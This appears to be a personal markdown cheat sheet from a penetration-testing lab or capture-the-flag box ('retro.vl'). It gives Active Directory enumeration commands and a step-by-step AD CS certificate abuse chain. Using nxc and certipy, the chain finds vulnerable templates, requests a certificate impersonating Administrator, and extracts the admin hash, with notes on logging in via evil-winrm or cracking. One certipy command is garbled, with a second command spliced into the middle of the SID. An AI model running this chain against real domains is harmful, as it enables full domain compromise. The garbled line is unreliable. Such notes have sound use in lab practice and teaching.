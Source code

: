 # Active Directory

## Enumeration

```powershell
Get-NetDomain
Get-NetUser
Get-NetGroup "Domain Admins"
```

## Attack Techniques

- DCSync
- Kerberoasting
- ACL abuse


## See if ACDS is enabled
```
 nxc ldap retro.vl -u "banking$" -p 'pass123!' -M adcs
```

## Review ACDS for misconfigurations.  Review Vulnerabiliteis section at the bottom
```
certipy find -u 'banking$' -p 'pass123!' -dc-ip 10.129.234.44 -vulnerable -stdout
```

## Request Admin Cert  Note the SID used here is for Administrator account.  This will generate .pfx
```
certipy req -u 'banking$' -p 'pass123!' -dc-ip 10.129.234.44 -ca retro-DC-CA -template RetroClients -upn Administrator -target dc.retro.vl -key-size 4096 -sid S-1-5-21-2983547755-698260136-428391certipy-ad find -u 'banking$' -p 'pass123!' -dc-ip 10.129.234.44 -vulnerable -stdout8172-500
```

## Use .PFX to get hash.  Connections could be made with evilwin-rm or brrute forcing could take place once the hash is gathered.  
```
certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'retro.vl' -dc-ip 10.129.234.44 
```


